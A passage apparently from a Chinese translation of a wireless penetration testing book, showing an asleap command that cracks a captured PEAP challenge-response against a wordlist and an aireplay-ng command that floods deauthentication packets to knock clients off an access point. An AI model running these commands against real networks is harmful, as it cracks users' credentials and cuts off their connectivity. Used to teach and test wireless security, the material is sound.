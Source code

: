     ```
    asleap -C 1d:cc:5d:7c:ba:7f:c3:dc -R f0:4d:32:1a:8e:c0:44:1e:e1:fa:07:e0:c0:6c:a3:23:8d:3b:96:52:55 :b2:5d:73 -W wordlist.txt

    ```

    ![Attacking PEAP](img/B04527_06_20.jpg)

# 拒绝服务攻击

无线网络可能遭受以客户端和 AP 为目标的**拒绝服务**（**拒绝服务**攻击。

这种攻击可以通过连续发送广播反验证数据包来执行，以强制断开连接并防止客户端重新连接。

完成此任务的工具是`aireplay-ng`，命令如下：

```
aireplay-ng --deauth 0 -a 08:7A:4C:83:0C:E0 mon0

```

![Denial of Service attacks](img/B04527_06_21.jpg)
